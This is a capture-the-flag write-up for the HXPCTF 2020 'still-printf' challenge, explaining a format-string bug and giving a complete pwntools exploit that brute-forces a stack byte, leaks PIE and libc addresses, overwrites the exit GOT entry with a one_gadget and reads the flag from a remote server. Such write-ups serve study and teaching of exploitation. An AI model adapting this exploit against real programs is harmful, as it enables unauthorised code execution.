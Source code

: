```yaml
---
layout: post
title: HXPCTF 2020 - still-printf 
category: Pwn
tags: 
    - hk
---
```

# Challenge Description

Desc ![m1](/assets/img/still-printf.PNG)

We got the following files and Source is provided. YAY

```
total 2020
drwx------ 2 1337 1337    4096 Dec 23 12:11 .
drwxr-xr-x 4 root root    4096 Dec 19 15:18 ..
-rw------- 1 root root    2421 Dec 20 09:48 .gdb_history
-rw-r--r-- 1 1337 1337    1410 Dec 19 05:46 Dockerfile
-rwxr-xr-x 1 1337 1337  165632 Jan  1  1970 ld-2.28.so
-rwxr-xr-x 1 1337 1337 1824496 Jan  1  1970 libc-2.28.so
-rwxr-xr-x 1 1337 1337   12336 Dec 18 15:09 still-printf
-rw-r--r-- 1 1337 1337     152 Dec 18 15:05 still-printf.c
-rwxr-xr-x 1 1337 1337   34712 Jan  1  1970 ynetd
```



```c
#include <stdio.h>
#include <stdlib.h>

int main() {
        char buf[0x30];
        setbuf(stdout, NULL);
        fgets(buf, sizeof(buf), stdin);
        printf(buf);
        exit(0);
}
```
A simple format-string bug. But the program exits right after printf.

 ![m1](/assets/img/question.jpg)

Here's the checksec output of the program.
```
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

I dumped the stack and looked for stack pointer chains.

![m2](/assets/img/stack_layout.png) ![m3](/assets/img/layout_2.PNG)

```
09:0048│   0x7ffe308bfc08 —▸ 0x7ffe308bfce8 —▸ 0x7ffe308c0894 ◂— '/root/hxpctf/still-printf/still-printf'
$15 -> $41 was the closest one that just 'perfectly' fits into the length of 0x2f bytes.
```

# Solution
My solution includes guessing ( ( stack_address&0xfff0 ) >> 4 ) byte value. The possibility is 1 / 4096.

We need to make this into multiple tries to get the code execution. printf calls vfprintf internally. By overwriting the return address of printf we can make this into multiple shots. But the challenging part is the max len of input, which is 0x2f bytes, but turns out that it's all we need to get code execution.

I knew the behaviour of vfprintf from another ctf challenge 0ctf quals - echoserver.
First i overwrote the pointer at 15th offset to point it to return address of printf (guessing LSB stack address).
THen we can use 41$n/hhn/hn to change the return address of printf.
But the way vfprintf works is, we can not do this, %`write`c%15$hn%`write`c%41$hn. When vfprintf encounters the first positional parameter `$` it copies all needed argument to an internal buffer, now if we do %41$hn to change the return address, it will fetch the original value which was there instead of the changed value.
The idea is the use "%c"*offset to reach the stack pointer and then we can do %hn to do the write so that the 41th offset points to the return address of printf. Then we can use %41$n/hn/hhn to change the return address.
The max input was 0x2f bytes and my payload fit exact 0x2f bytes.

Here's the main payload
```py
magic_number = 0x1337
payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
```
Note: I use %p once in the payload to leak the a stack address.

If the bruteforce is sucessfull, later it's just trivial, i made this into multiple shots and partial overwrite exit_got with one_gadget.

# Exploit
```py
#!/usr/bin/python3
from pwn import *
from past.builtins import xrange
from time import sleep
import random
import subprocess

# Addr
libc_leak_offset = 0x2409b
gadget1 = 0x448a3
system = 0x449c0

# Hack
def Hack():
 global io

 exe = ELF('./still-printf')
 magic_number = 0x1337
 
 # Leak stack pointer And hope for good luck.
 payload = ('%c%p'+'%c'*8 +'%c%c%c' +f'%{ (magic_number + 1 ) - (0xd + 0x5 + 0x8 )}c'+'%hn'+f'%{ 0xdd - ( (magic_number+1)&0xff) }c'+'%41$hhn').ljust(0x2f)
 print(hex(len(payload)))
 io.send(payload)

 io.recvuntil('\xd0')
 stack_leak = int(io.recvn(14),0)
 print(hex(stack_leak))

 # Leak some addresses PIE - LIBC and overwrite return of printf again to get more shots. (stack leak used here)
 payload2 = f'%{0xdd}c%11$hhn%12$p%13$p'.ljust(0x28,'A').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload2)
 io.recvuntil('\xd0')
 pie_base = int(io.recvn(14),0) - 0x1200
 libc_leak = int(io.recvn(14),0)
 libc_base = libc_leak - libc_leak_offset
 print(hex(libc_base))
 print(hex(pie_base))

 # Get pie_address on stack
 payload3 = f'%{0xdd}c%11$hhn%{ ((pie_base+exe.got["exit"] )&0xffff) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(stack_leak + 0x30)+p64(stack_leak - 0x8)[0:7]
 print(hex(len(payload3)))
 io.send(payload3)

 # Partial overwrite it to one_gadget
 payload4 = f'%{0xdd}c%11$hhn%{ ( (libc_base+gadget1)&0xffff ) - 0xdd}c%12$hn'.ljust(0x28,'\0').encode() + p64(stack_leak - 0x8)[0:7]
 io.send(payload4)\

 payload5 = f'%{0xdd}c%11$hhn%{ ( ( ( (libc_base+gadget1)&0xffffffff)&0xffff0000 ) >> 16 ) - 0xdd}c%10$hn'.ljust(0x20,'A').encode() + p64(pie_base+exe.got['exit']+0x2)+p64(stack_leak - 0x8)[0:7]
 io.send(payload5)
 
 # setup Gadget constraints [rsp + 0x30] == NULL and exit.
 payload6 = f'%{ (pie_base + 0x1100 )&0xffff}c%10$hn'.ljust(0x20,'\0').encode()+p64(stack_leak-0x8) + p64(0)[0:7]
 print(hex(len(payload6)))
 io.send(payload6)

for i in xrange(4096):
 try:
  #io = process('./still-printf')
  io = remote('168.119.161.224',9509)
  Hack()
  io.sendline('cat /flag*')
  data = io.recv()
  print(data)
  io.interactive()
 except:
  continue
``` 
